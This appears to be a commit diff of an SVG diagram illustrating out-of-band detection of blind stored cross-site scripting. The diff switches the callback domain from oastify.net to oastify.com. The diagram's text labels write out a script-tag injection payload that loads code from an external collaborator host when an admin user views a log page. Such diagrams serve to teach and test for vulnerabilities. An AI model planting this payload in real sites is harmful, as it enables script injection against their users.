

<svg xmlns="http://www.w3.org/2000/svg" width="807" height="768" viewBox="0 0 807 768">
  <polygon points="62.77 82.18 37.64 77.3 37.64 39.09 62.77 34.17 62.77 82.18" fill="#404041" />
  <polygon points="63.94 82.18 89.1 77.3 89.1 39.09 63.94 34.17 63.94 82.18" fill="#f63" />
  <path d="M75.86,40c.86.19,1.28.27,2.15.42V47c-2.53,2.48-3.78,3.81-6.3,6.71,2.52.12,3.77.15,6.3.27v6.52c3.47-.12,5.2-.15,8.6-.27A106.49,106.49,0,0,0,78,70.13v5.14c-.87.19-1.29.27-2.15.42v-6c2.52-3.21,3.77-4.73,6.26-7.52-2.53.16-3.77.2-6.3.35V55.83l-8.6-.19A107.92,107.92,0,0,1,75.82,46V43.24C75.86,42,75.86,41.3,75.86,40Z" fill="#fff" />
  <path d="M3.41,120.94c-1,0-1.36-.4-1.36-1.35V97.85c0-.95.41-1.36,1.36-1.36H10.6c2.38,0,5.05,2.13,5.05,6a6.5,6.5,0,0,1-2.12,4.88c1.94,1.58,2.93,3,2.93,6.34,0,4.8-3.45,7.22-6.34,7.22Zm1.32-14.88h5.65c1.46,0,2.6-1.28,2.6-3.56s-1-3.33-2.6-3.33H4.73Zm0,12.21h5.65c1.57,0,3.51-1.29,3.51-4.55a4.74,4.74,0,0,0-1.06-3.52,2.89,2.89,0,0,0-2.45-1.46H4.73Z" fill="#f63" />
  <path d="M32.92,113.87a7.32,7.32,0,0,1-14.63,0V98a1.48,1.48,0,0,1,1.36-1.58A1.48,1.48,0,0,1,21,98v16a5,5,0,0,0,1.9,3.52,3.71,3.71,0,0,0,2.72.88,3.75,3.75,0,0,0,2.74-.88A4.89,4.89,0,0,0,30.24,114V98a1.45,1.45,0,0,1,1.32-1.58A1.5,1.5,0,0,1,32.92,98Z" fill="#f63" />
  <path d="M43.51,96.49c4.29,0,6.93,2.75,6.93,7.22,0,2.5-.48,4.37-1.69,5.61a5.87,5.87,0,0,1-3.41,1.73l4.29,7.73a1.37,1.37,0,0,1,.26,1,1.41,1.41,0,0,1-1.1,1.21c-.59,0-1.07,0-1.47-.73l-5-9H38.12v8.43c0,1-.37,1.35-1.32,1.35s-1.36-.4-1.36-1.35V97.85c0-.95.41-1.36,1.36-1.36Zm-5.39,2.68v9.31h6.2a2.36,2.36,0,0,0,2.41-1.1,5.24,5.24,0,0,0,1-3.67c0-3.26-1.94-4.54-3.52-4.54Z" fill="#f63" />
  <path d="M61.07,96.49c4.28,0,6.92,2.75,6.92,7.22,0,3.49-.91,5.47-3.19,6.71a6.54,6.54,0,0,1-3.62.74h-5.5v8.43c0,1-.37,1.35-1.32,1.35s-1.36-.4-1.36-1.35V97.85c0-.95.4-1.36,1.36-1.36Zm-5.39,2.68v9.31h6.19a2.37,2.37,0,0,0,2.42-1.1,5.24,5.24,0,0,0,1-3.67c0-3.26-1.95-4.54-3.52-4.54Z" fill="#f63" />
  <path d="M80.45,109.8a6.06,6.06,0,0,1,2.9,5.35c0,2.68-2.79,5.94-7.62,5.94a16.89,16.89,0,0,1-3.93-.62c-2.56-.74-3-.55-3-2,0-.44.33-1.14,1.62-1.14.66,0,2.49,1.1,5.2,1.1,3.12,0,5-1.87,5-3.7a3.27,3.27,0,0,0-1.61-2.57l-7.37-4.94a5.72,5.72,0,0,1-2.75-4.66c0-3.7,2.94-6.3,7.15-6.3a5.42,5.42,0,0,1,1.5.14c3.12.85,5,1.29,5,2.72a1.28,1.28,0,0,1-1.46,1.28c-.85,0-2.39-1.47-4.91-1.47-3,0-4.55,1.69-4.55,3.41a3.37,3.37,0,0,0,1.5,2.6Z" fill="#404042" />
  <path d="M99.73,113.87a7.31,7.31,0,0,1-14.62,0V98a1.35,1.35,0,1,1,2.67,0v16a5,5,0,0,0,1.91,3.52,3.7,3.7,0,0,0,2.71.88,3.78,3.78,0,0,0,2.75-.88A4.92,4.92,0,0,0,97.06,114V98a1.45,1.45,0,0,1,1.32-1.58A1.5,1.5,0,0,1,99.73,98Z" fill="#404042" />
  <path d="M102.26,97.85c0-.95.4-1.36,1.36-1.36s1.32.41,1.32,1.36v21.74c0,1-.37,1.35-1.32,1.35s-1.36-.4-1.36-1.35Z" fill="#404042" />
  <path d="M114.69,99.17v20.42c0,1-.41,1.35-1.36,1.35s-1.32-.4-1.32-1.35V99.17h-4.58a1.17,1.17,0,0,1-1.28-1.32,1.2,1.2,0,0,1,1.28-1.36h11.84a1.2,1.2,0,0,1,1.28,1.36,1.17,1.17,0,0,1-1.28,1.32Z" fill="#404042" />
  <path d="M124.43,118.27h8.07a1.17,1.17,0,0,1,1.28,1.32,1.19,1.19,0,0,1-1.28,1.35h-9.38c-1,0-1.36-.4-1.36-1.35V97.85c0-.95.4-1.36,1.36-1.36h9.38a1.2,1.2,0,0,1,1.28,1.36,1.17,1.17,0,0,1-1.28,1.32h-8.07v7.11h5.72c.81,0,1.25.48,1.25,1.36S131,109,130.15,109h-5.72Z" fill="#404042" />
  <polygon points="2 217.42 357.61 217.42 357.61 223.2 369 216.63 357.61 210.05 357.61 215.83 2 215.83 2 217.42" fill="#ff774a" />
  <polygon points="806 308.83 450.89 308.83 450.89 303.05 439.5 309.63 450.89 316.2 450.89 310.42 806 310.42 806 308.83" fill="#1d81c4" />
  <polygon points="367 670.83 11.39 670.83 11.39 665.05 0 671.63 11.39 678.2 11.39 672.42 367 672.42 367 670.83" fill="#1d81c4" />
  <polygon points="440.52 371.42 791.61 371.42 791.61 377.2 803 370.63 791.61 364.05 791.61 369.83 440.52 369.83 440.52 371.42" fill="#ff774a" />
  <path d="M1.21,691.88v39.58c0,.09-.05.25.1.21h29.8v5.78l11.39-6.57L31.11,724.3v5.78H2.87c-.11,0-.07-.09-.08-.16v-38Z" fill="#ff774a" />
  <path d="M748.77,220.12a11.29,11.29,0,1,0-10.43,0c-7.42,2.67-12.84,10.86-12.84,20.53a25,25,0,0,0,1,6.86l.23.82h33.73l.24-.82a25.36,25.36,0,0,0,1-6.86C761.62,231,756.2,222.79,748.77,220.12Zm-14.24-10a9,9,0,1,1,9,9A9,9,0,0,1,734.53,210.17Zm24.17,35.91H728.42a22.73,22.73,0,0,1-.66-5.43c0-10.58,7.09-19.19,15.8-19.19s15.8,8.61,15.8,19.19A22.73,22.73,0,0,1,758.7,246.08Z" fill="#f63" />
  <path d="M792.38,214.05v-8.19h-3.94a10.63,10.63,0,0,0-.65-1.61l2.77-2.77-5.79-5.79L782,198.43a13,13,0,0,0-1.63-.67v-3.88h-8.2v3.88a13,13,0,0,0-1.63.67l-2.75-2.74L762,201.48l2.77,2.77a12,12,0,0,0-.65,1.61h-3.93v8.19h4a10.85,10.85,0,0,0,.66,1.57L762,218.43l5.79,5.8,2.84-2.84a13.11,13.11,0,0,0,1.54.64v4h8.2v-4a11.56,11.56,0,0,0,1.54-.63l2.84,2.84,5.79-5.8-2.81-2.81a12.65,12.65,0,0,0,.65-1.57Zm-5.2-1.65-.18.6a11.2,11.2,0,0,1-1,2.37l-.31.55,2.52,2.51-3.45,3.46-2.54-2.54-.54.31a11.13,11.13,0,0,1-2.35,1l-.61.17v3.6h-4.88v-3.6l-.6-.17a11.44,11.44,0,0,1-2.36-1l-.54-.31-2.54,2.54-3.45-3.46,2.52-2.51-.31-.55a11.2,11.2,0,0,1-1-2.37l-.17-.6h-3.55v-4.88h3.52l.17-.61a10.93,10.93,0,0,1,1-2.42l.31-.54-2.47-2.47,3.45-3.45,2.46,2.45.54-.31a11.4,11.4,0,0,1,2.44-1l.6-.17v-3.46h4.88V199l.61.17a11,11,0,0,1,2.42,1l.55.31,2.46-2.45,3.45,3.45L785.76,204l.3.54a10.93,10.93,0,0,1,1,2.42l.17.61h3.52v4.88Z" fill="#f63" />
  <path d="M776.29,203.68a6.28,6.28,0,1,0,6.28,6.28A6.29,6.29,0,0,0,776.29,203.68Zm0,10.9a4.62,4.62,0,1,1,4.62-4.62A4.62,4.62,0,0,1,776.29,214.58Z" fill="#f63" />
  <polygon points="806.5 491.71 451.39 491.71 451.39 485.92 440 492.5 451.39 499.08 451.39 493.29 806.5 493.29 806.5 491.71" fill="#1d81c4" />
  <polygon points="0 626.42 355.61 626.42 355.61 632.2 367 625.63 355.61 619.05 355.61 624.83 0 624.83 0 626.42" fill="#1d81c4" />
  <rect x="42" y="707.5" width="143" height="40" fill="#fcebe8" stroke="#f63" stroke-miterlimit="10" stroke-width="0.5" />
  <text transform="translate(2.5 188.9)" font-size="14" fill="#f63" font-family="Courier, Courier">?param=&lt;script src=<tspan x="159.63" y="0" font-family="AndaleMono, Andale Mono">”</tspan>
    <tspan x="168.03" y="0">http://f2682...</tspan>
-     <tspan x="0" y="16.8">...few9.oastify.net/&gt;</tspan>
+     <tspan x="0" y="16.8">...few9.oastify.com/&gt;</tspan>
  </text>
  <text transform="translate(735.5 297.82)" font-size="14" fill="#0071bc" font-family="Courier, Courier">GET /log</text>
  <text transform="translate(702.81 270.66)" font-size="16.88" fill="#4c5054" font-family="Arial-BoldMT, Arial" font-weight="700">Admin user</text>
  <text transform="translate(439.5 341.9)" font-size="14" fill="#f63" font-family="Courier, Courier">&lt;script src=<tspan x="100.82" y="0" font-family="AndaleMono, Andale Mono">”</tspan>
    <tspan x="109.22" y="0">http://f2682...</tspan>
-     <tspan x="0" y="16.8">...few9.oastify.net/&gt;</tspan>
-   </text>
-   <text transform="translate(565 463.7)" font-size="14" fill="#0071bc" font-family="Courier, Courier">GET http://f2682...<tspan x="0" y="16.8">...few9.oastify.net/</tspan>
+     <tspan x="0" y="16.8">...few9.oastify.com/&gt;</tspan>
+   </text>
+   <text transform="translate(565 463.7)" font-size="14" fill="#0071bc" font-family="Courier, Courier">GET http://f2682...<tspan x="0" y="16.8">...few9.oastify.com/</tspan>
  </text>
  <text transform="translate(0.49 581.4)" font-size="16.88" fill="#4c5054" font-family="DroidSans-Bold, Droid Sans" font-weight="700">Later...</text>
  <text transform="translate(55.49 732.33)" font-size="13" fill="#4c5054" font-family="ArialMT, Arial">Report stored XSS</text>
  <polygon points="375.8 477.01 371.7 477.01 375.8 472.61 375.8 464.94 374.07 464.94 374.07 472.01 367.22 478.73 374.07 478.73 374.07 484.26 377.92 484.19 374.07 488.23 374.07 495.97 375.8 495.97 375.8 488.83 382.02 482.18 375.8 482.18 375.8 477.01" fill="#fff" />
  <path d="M316.44,545.78c-.57,0-.82-.24-.82-.81V531.9c0-.57.25-.82.82-.82h4.32c1.43,0,3,1.28,3,3.62a3.92,3.92,0,0,1-1.28,2.93,4.14,4.14,0,0,1,1.77,3.81,4,4,0,0,1-3.82,4.34Zm.79-8.94h3.4c.88,0,1.56-.78,1.56-2.14s-.59-2-1.56-2h-3.4Zm0,7.34h3.4c.95,0,2.11-.78,2.11-2.74a2.81,2.81,0,0,0-.64-2.11,1.71,1.71,0,0,0-1.47-.89h-3.4Z" 